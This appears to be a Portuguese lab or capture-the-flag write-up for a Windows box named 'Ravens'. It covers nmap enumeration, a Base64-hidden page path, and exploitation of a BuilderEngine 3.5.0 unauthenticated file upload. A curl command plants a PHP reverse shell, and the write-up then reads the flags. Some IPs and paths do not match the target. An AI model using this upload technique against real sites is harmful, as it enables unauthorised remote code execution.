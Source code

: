 ```yaml
---
title: Ravens
category: EHPT
---
```


## Enumeração

### Scan inicial

- Full NMAP scan TCP

```plaintext
dcruz@kali:/dcruz/ehpt/ravens/scan$ cat full.nmap 
# Nmap 7.80 scan initiated Sat Jun 20 00:00:16 2020 as: nmap -p80,135,139,443,445,3306,3389,7680,49664,49665,49666,49667,49669,49670,49671 -A -Pn -oA full 10.0.0.11
Nmap scan report for 10.0.0.11
Host is up (0.00034s latency).

PORT      STATE SERVICE            VERSION
80/tcp    open  http               Apache httpd 2.4.37 ((Win32) OpenSSL/1.0.2p PHP/5.6.40)
|_http-server-header: Apache/2.4.37 (Win32) OpenSSL/1.0.2p PHP/5.6.40
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
443/tcp   open  ssl/http           Apache httpd 2.4.37 ((Win32) OpenSSL/1.0.2p PHP/5.6.40)
|_http-server-header: Apache/2.4.37 (Win32) OpenSSL/1.0.2p PHP/5.6.40
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql              MariaDB (unauthorized)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-06-20T03:01:37+00:00; +2s from scanner time.
7680/tcp  open  pando-pub?
49664/tcp open  msrpc              Microsoft Windows RPC
49665/tcp open  msrpc              Microsoft Windows RPC
49666/tcp open  msrpc              Microsoft Windows RPC
49667/tcp open  msrpc              Microsoft Windows RPC
49669/tcp open  msrpc              Microsoft Windows RPC
49670/tcp open  msrpc              Microsoft Windows RPC
49671/tcp open  msrpc              Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
|_nbstat: NetBIOS name: nil, NetBIOS user: <unknown>, NetBIOS MAC: 00:15:5d:2a:16:31 (Microsoft)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-20T03:01:13
|_  start_date: 2020-06-20T01:38:19

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 20 00:02:35 2020 -- 1 IP address (1 host up) scanned in 138.90 seconds
```

### 80/TCP - Website

- Ao navegar para a pagina inicial fui redirecionado para a página `https://10.0.0.11/teste/index.php`. Esta página contém uma imagem e o seguinte código fonte

```html
<html>
<head><title>Teste PHP</title></head>
<body>
    <p>Olá Jovem </p> <img src="bino.png" alt="some text" width=800 height=600>
    <p>Muitas vezes uma porta leva a varios lugares, precisamos olhar com calma
    <p><p>muitas vezes usar de força bruta
    <p><p>
    <p><p>a
    <p><p>a
    <p><p> a
    <p><p>a
    <p><p> a
    <p><p>a
    <p><p>a
    <p><p>a
    <p><p>a
    <p><p>YnVpbGQvcGFnZS1jb2VsaG8tYnJhbmNvLW5lby5odG1s
    <p>
</body>
</html>
```

- Inspecionando o texto **YnVpbGQvcGFnZS1jb2VsaG8tYnJhbmNvLW5lby5odG1s**  não foi possível detectar nenhum tipo formato hash, porém verificando como algum conteúdo codificado, identificado que se trata de um **Base64** que foi decodificado, confome abaixo

```plaintext
dcruz@kali:/dcruz/ehpt/homelander/exploit$ echo -n 'YnVpbGQvcGFnZS1jb2VsaG8tYnJhbmNvLW5lby5odG1s' | base64 -d
build/page-coelho-branco-neo.html
```

- Acessando a página informada identificado que se tratava de um site criado com BuilderEngine.

## Exploração

- Verificando no searchsploit o produto utilizado para criar o site, encontrado uma vulnerabilidade de File Upload

```plaintext
dcruz@kali:/dcruz/ehpt/homelander$ searchsploit builderengine
---------------------------------------------------------------------- ---------------------------------
  Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
BuilderEngine 3.5.0 - Arbitrary File Upload                           | php/webapps/40390.php
BuilderEngine 3.5.0 - Arbitrary File Upload and Execution (Metasploit | php/remote/42025.rb
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- Com base no que foi informado nos arquivos é possivel fazer o upload de um arquivo qualquer sem necessidade de se autenticar. feito isso utilizado um shell reverso PHP para Windows, conforme enumeração inicial executada e foi possível obter um shell reverso, através da execução da linha de comando abaixo, onde o arquivo a ser carregado já possui os apontamentos de endereço IP para upload

```bash
curl -F 'files=@/dcruz/ehpt/homelander/exploit/shell.php' http://10.0.0.14/build/themes/dashboard/assets/plugins/jquery-file-upload/server/php/
```

- Ao navegar ao site, foi obtido o shell reverso na maquina, possibilitando obter a flag de user e root

```plaintext
c:\Users\Administrator\Desktop>type admin.txt
type admin.txt
8be5044c51b1b9b37f50b33c7f4433
```

```plaintext
c:\Users\Eric Draven\Desktop>type user.txt
type user.txt
891b3a9ba0e97072aefa681132f933fd
```
